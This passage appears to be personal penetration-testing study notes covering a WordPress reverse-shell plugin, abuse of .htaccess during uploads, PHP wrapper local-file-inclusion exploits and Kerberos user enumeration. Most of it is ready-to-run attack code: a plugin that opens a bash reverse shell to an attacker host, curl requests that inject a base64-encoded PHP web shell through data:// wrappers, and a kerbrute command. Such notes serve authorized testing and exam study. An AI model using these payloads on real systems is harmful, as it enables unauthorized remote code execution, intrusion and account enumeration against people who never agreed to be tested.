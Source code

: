 	    <?php
	    
	    /**
	    * Plugin Name: Reverse Shell Plugin
	    * Plugin URI:
	    * Description: Reverse Shell Plugin
	    * Version: 1.0
	    * Author: Author Name
	    * Author URI: http://www.website.com
	    */
	    
	    exec("/bin/bash -c 'bash -i >& /dev/tcp/$kaliIP $port 0>&1'");
	    ?>



- The plugin files will be accessible from the following link:
`http://$target/wp-content/plugins/$zipName/$phpFileNmae`

### when the web server won't execute a file type during uploads
1. `echo "AddType application/x-httpd-php .xxx" > .htaccess`
2. upload the .htaccess file
3. then upload the .xxx file which can be executed as php


### PHP Wrappers
Note that in order to exploit these vulnerabilities, the allow_url_include setting needs to be enabled for PHP, which is not the case for default installations. That said, it is included in the material, so it makes sense to be aware of it. 
Ex: exploiting a page called admin.php
-  `curl http://$IP/$directory/index.php?page=admin.php`
-  Note that if the `<body>` tag is not closed (with a `</body>` tag at the end), the page could be vulnerable. Let's try to exploit it with the **php://filter** tag. 
	1. `curl http://$IP/$directory/index.php?page=php://filter/**convert.base64-encode**/resource=admin.php`
		1. This should return the whole page which can then be decoded for further information. 
	2. `echo "$base64Text" | base64 -d`
- Now let's try with the **data://** warpper. 
	1. `curl "http://$IP/$directory/index.php?page=**data://text/plain**,<?php%20echo%20system('ls');?>"`
		1. This shows that we can execute embeeded data via LFI. 
	2. But because some of our data like "system" may be filtered, we can encode it with base64 and try again. 
	3. `echo -n '<?php echo system($_GET["cmd"]);?>' | base64`
		- PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==
	4. `"http://\<host>/\<directory>/index.php?page=**data://text/plain;base64**,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"`

## (88) Kerberos
ADD THE DNS NAME TO YOUR `/etc/hosts` FILE!!!

To enumerate accounts ON DC:
`kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt`
